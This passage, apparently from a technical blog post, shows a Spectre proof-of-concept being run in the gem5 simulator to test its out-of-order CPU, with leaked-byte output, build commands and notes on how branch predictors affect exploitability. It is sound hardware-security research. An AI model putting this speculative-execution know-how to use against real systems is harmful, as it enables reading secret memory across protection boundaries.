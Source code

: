     Reading at malicious_x = 0xffffffffffdd76eb... Success: 0x72=’r’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76ec... Success: 0x61=’a’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76ed... Success: 0x67=’g’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76ee... Success: 0x65=’e’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76ef... Success: 0x2E=’.’ score=2

### Running Spectre in gem5

To find out if gem5's out of order CPU implementation is vulnerable to
Spectre, we need to run the code in gem5. The simplest and fastest way
to do this is by running in gem5's syscall-emulation (SE) mode. In SE
mode we won't be modeling an OS or any user-mode to kernel-mode
interaction, but this okay for Spectre since this proof of concept code
is all in user-mode. If we were investigating Metldown, we would have to
use full-system (FS) mode since Meltdown specifically allows user-mode
processes to read data that should only be accessible in kernel mode.

So, when running something in gem5, the first step is to create a Python
runscript since this is [the "interface" to
gem5](http://learning.gem5.org/book/part1/simple_config.html). For this
example, what we need is a system with one CPU, an L1 cache, and memory.
For simplicity, I'm going to modify one of the existing script,
specifically the `two_level.py` script from the [Learning gem5
book](http://learning.gem5.org/).

In the file `gem5/configs/learning_gem5/part1/two_level.py`, I simply
changed the CPU from `TimingSimpleCPU()` to
`DerivO3CPU(branchPred=LTAGE())`. I also set the O3CPU to use the LTAGE
branch predictor instead of the default tournament branch predictor.
It's important to use the LTAGE branch predictor as better branch
predictors actually make Spectre easier to exploit as discussed further
[below](#effects-of-branch-predictor).

Now, we simply need to build gem5 and run it.

    scons -j8 build/X86/gem5.opt

    build/X86/gem5.opt configs/learning_gem5/part1/two_level.py spectre

And, the output that I get is the following, just like above when I ran
the `spectre` natively.

    gem5 Simulator System.  http://gem5.org                             
    gem5 is copyrighted software; use the --copyright option for details.                                                                   

    gem5 compiled May 10 2018 09:40:08                                  
    gem5 started May 24 2018 11:21:16
    gem5 executing on palisade, pid 27173                               
    command line: build/X86/gem5.opt configs/learning_gem5/part1/two_level.py spectre                                                       

    Global frequency set at 1000000000000 ticks per second              
    warn: DRAM device capacity (8192 Mbytes) does not match the address range assigned (512 Mbytes)                                         
    0: system.remote_gdb: listening for remote gdb on port 7000         
    Beginning simulation!             
    info: Entering event queue @ 0.  Starting simulation...             
    warn: readlink() called on '/proc/self/exe' may yield unexpected results in various settings.                                           
          Returning '/home/jlp/Code/gem5/spectre-vis/spectre'           
    info: Increasing stack size by one page.                            
    warn: ignoring syscall access(...)                                  
    Reading 40 bytes:                 tput cols
    Reading at malicious_x = 0xffffffffffdd76c8... Success: 0x54=’T’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76c9... Success: 0x68=’h’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76ca... Success: 0x65=’e’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76cb... Success: 0x20=’ ’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76cc... Success: 0x4D=’M’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76cd... Success: 0x61=’a’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76ce... Success: 0x67=’g’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76cf... Success: 0x69=’i’ score=2                                                                